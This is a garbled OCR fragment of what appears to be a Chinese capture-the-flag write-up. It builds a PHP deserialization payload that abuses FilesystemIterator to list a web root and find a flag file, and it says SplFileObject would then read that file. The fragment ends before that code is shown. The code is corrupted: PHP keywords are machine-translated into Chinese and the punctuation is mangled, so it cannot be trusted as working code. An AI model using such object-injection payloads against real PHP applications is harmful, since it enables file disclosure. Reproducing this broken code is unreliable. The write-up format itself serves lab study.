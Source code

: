     
    
      
    class  A { public $class = 'FilesystemIterator' ;    // FilesystemIterator("/var/www/html") public $para = "/var/www/html/" ; 公共$check ;     }  
           
          
           
           
      
      
    $poc   = new A();   
    回声序列化（$poc）；  
      
  
---|---  
  
`  
`

`得到有效载荷：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O: 1 : "A" : 3 :{s: 5 : "class" ;s: 18 : "FilesystemIterator" ;s: 4 : "para" ;s: 14 : "/var/www/html/" ;s ：5：“检查” ;N;}  
      
  
---|---  
  
`  
`

`执行后得到一个文件夹aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084317.png)`

`并在这个文件夹中找到了flag.php：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084319.png)`

`然后我们使用 SplFileObject 类读取flag.php就行了：`

`  
`

``

`PHP`

``
